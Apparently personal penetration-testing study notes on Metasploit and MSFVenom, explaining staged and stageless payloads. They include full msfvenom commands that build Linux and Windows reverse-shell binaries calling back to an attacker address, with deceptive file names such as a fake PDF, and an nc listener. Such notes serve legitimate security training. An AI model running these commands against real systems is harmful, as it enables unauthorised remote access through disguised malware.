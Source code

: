 
# Running metasploit
1. `msfconsole`
2. `search ..`
3. `use ..`
4. `options`
5. `set ... ...`
6. `exploit`

# Crafting Payloads with MSFVenom
- `msfvenom -l payloads

## Staged Payloads
- eg. `windows/meterpreter/reverse_tcp`
- Payload sends a small stage to be executed on target
- Then calls back to attack box to download the remainder of the payload over the network
- Then executes shellcode to get reverse shell

# Stageless Payloads
- eg. `windows/meterpreter_reverse_tcp`
- Payload sent in entirety across network connection without a stage
- Could benefit in environments where do not have access to much bandwidth and latency can interfere

## Building stageless payload
- eg. `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf`
	- -p: creating payload
	- linux... : choosing the payload
	- LHOST, LPORT: the address to connect back to
		- Since this is a reverse shell, this is our machine
	- -f: format the binary will be in, in this case a .elf file
	- createbackup.elf: the output

- find someway to execute it on the target machine
- we also need a listener ready to catch the connection on our machine
	- `sudo nc -lvnp 443`

Windows version
- eg. `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe`